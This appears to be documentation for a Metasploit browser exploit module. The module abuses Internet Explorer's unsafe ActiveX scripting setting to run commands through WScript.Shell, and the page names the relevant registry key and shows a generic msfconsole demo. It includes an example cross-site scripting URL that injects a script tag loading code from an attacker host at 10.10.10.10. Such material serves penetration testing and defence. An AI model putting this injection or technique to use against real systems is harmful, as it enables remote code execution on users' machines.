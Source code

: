 ## Microsoft Internet Explorer Unsafe Scripting Misconfiguration

This exploit takes advantage of the "Initialize and script 
ActiveX controls not marked safe for scripting" setting 
within Internet Explorer. When this option is set, IE allows 
access to the WScript.Shell ActiveX control, which allows 
javascript to interact with the file system and run 
commands. This security flaw is not uncommon in corporate 
environments for the 'Intranet' or 'Trusted Site' zones. 
When set via domain policy, the most common registry entry 
to modify is HKLM\ 
Software\Policies\Microsoft\Windows\CurrentVersion\Internet 
Settings\Zones\1\1201, which if set to '0' forces ActiveX 
controls not marked safe for scripting to be enabled for the 
Intranet zone. This module creates a javascript/html hybrid 
that will render correctly either via a direct GET 
http://msf-server/ or as a javascript include, such as in: 
http://intranet-server/xss.asp?id="><script%20src=http://10.10.10.10/ie_unsafe_script.js> 
</script>. IE Tabs, WScript and subsequent Powershell 
prompts all run as x86 even when run from an x64 
iexplore.exe.


## Module Name
exploit/windows/browser/ie_unsafe_scripting

## Authors
* natron
* Ben Campbell


## References
* http://support.microsoft.com/kb/182569
* http://blog.invisibledenizen.org/2009/01/ieunsafescripting-metasploit-module.html
* http://support.microsoft.com/kb/870669



## Targets
* Windows x86/x64


## Platforms
win

## Reliability
[Excellent](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use exploit/windows/browser/ie_unsafe_scripting
msf exploit(ie_unsafe_scripting) > show targets
   ... a list of targets ...
msf exploit(ie_unsafe_scripting) > set TARGET <target-id>
msf exploit(ie_unsafe_scripting) > show options
   ... show and set options ...
msf exploit(ie_unsafe_scripting) > run
```
    
    